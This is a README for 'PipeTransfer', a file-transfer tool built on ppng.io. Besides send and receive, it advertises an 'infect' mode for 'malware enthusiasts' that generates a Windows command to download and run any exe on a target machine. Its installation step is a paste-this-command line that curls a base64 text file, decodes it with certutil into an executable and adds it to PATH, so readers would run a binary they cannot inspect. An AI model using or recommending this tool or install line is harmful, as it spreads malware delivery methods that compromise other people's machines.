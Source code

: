 # PipeTransfer
> [!IMPORTANT]
> The PipeTransfer tool is a command-line tool designed for seamless file transfer between systems using `ppng.io`. It supports three distinct modes: "send," "receive," and "infect,".

# Commands 
> **Send** : The send is pretty straighforward, it's used to send a file/folder with the command : `pipetransfer send (file/folder) (key)`
>
> **Receive** : The receive command is used to receive folders with the command : `pipetransfer receive (key)`
>
> **Infect** : This command was made specifically for malware enthusiasts, simply use the command : `pipetransfer infect (yourexe.exe) (key)` and pipetransfer will create a windows command for your file which can be used on any windows machine to download and run your exe.

# Installation
To install PipeTransfer simply run the command : <br>
`curl -o temp.txt https://raw.githubusercontent.com/4lpine/PipeTransfer/main/base64source(ignore%20this).txt && certutil -decode temp.txt pipetransfer.exe && del temp.txt && move pipetransfer.exe C:\PipeTransfer\ && setx PATH "%PATH%;C:\PipeTransfer"`

> [!NOTE]
> - key and link are the same thing, i.e the link is defined by the user and can be whatever the user wants it to be. <- (to avoid confusion)
> 
> - Removal of the tool is also simple as all you have to do is delete the PipeTransfer folder in C:/
